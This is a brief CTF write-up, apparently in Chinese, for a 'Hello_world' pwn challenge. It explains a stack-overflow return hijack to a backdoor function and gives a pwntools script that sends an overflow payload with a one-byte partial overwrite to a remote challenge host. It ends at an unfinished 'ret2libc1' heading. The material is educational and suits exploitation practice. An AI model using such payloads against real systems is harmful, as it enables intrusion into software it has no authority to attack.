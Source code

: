 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至backdoors即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
